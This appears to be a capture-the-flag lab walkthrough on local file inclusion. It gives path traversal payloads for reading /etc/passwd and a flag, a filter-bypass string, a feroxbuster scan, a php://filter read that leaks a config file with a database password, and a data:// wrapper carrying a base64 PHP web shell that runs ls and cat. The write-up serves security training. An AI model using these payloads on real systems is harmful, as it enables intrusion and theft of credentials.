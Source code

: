 
## File Inclusion:
- For the first information, use the following payload:

    ```bash
    ../../../../etc/passwd
    ```

- This will reveal **ballen** as a username.

- The first flag is located at:

    ```bash
    ../../../../usr/share/flags/flag.txt
    ```

## Basic Bypass:
- Use the following payload for a basic bypass:

    ```bash
    ....//....//....//....//flag.txt
    ```

## PHP Filter:
1. Run **feroxbuster** to find files on the server:

    ```bash
    feroxbuster -u http://83.136.254.158:57904 -w /root/SecLists/Discovery/Web-Content/common.txt -x .php
    ```

2. You will find a file named `configure.php`. Access it with a PHP filter payload:

    ```bash
    http://83.136.254.158:57904/index.php?language=php://filter/read=convert.base64-encode/resource=configure
    ```

3. This will return a Base64-encoded file. After decoding it, you'll see:

    ```php
    <?php
    if ($_SERVER['REQUEST_METHOD'] == 'GET' && realpath(__FILE__) == realpath($_SERVER['SCRIPT_FILENAME'])) {
        header('HTTP/1.0 403 Forbidden', TRUE, 403);
        die(header('location: /index.php'));
    }
    $config = array(
        'DB_HOST' => 'db.inlanefreight.local',
        'DB_USERNAME' => 'root',
        'DB_PASSWORD' => 'HTB{n3v3r_$t0r3_pl4!nt3xt_cr3d$}',
        'DB_DATABASE' => ...
    );
    ```

## PHP Wrappers:
1. Use **curl** to access sensitive files using PHP wrappers:

    ```bash
    curl http://94.237.57.90:46790/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
    ```

2. To list files on the machine, use the following command:

    ```bash
    http://94.237.54.201:36693/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=ls%20/
    ```

3. After locating the `.txt` file, use `cat` to read its contents:

    ```bash
    http://94.237.54.201:36693/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=cat%20/37809e2f8952f06139011994726d9ef1.txt
    ```

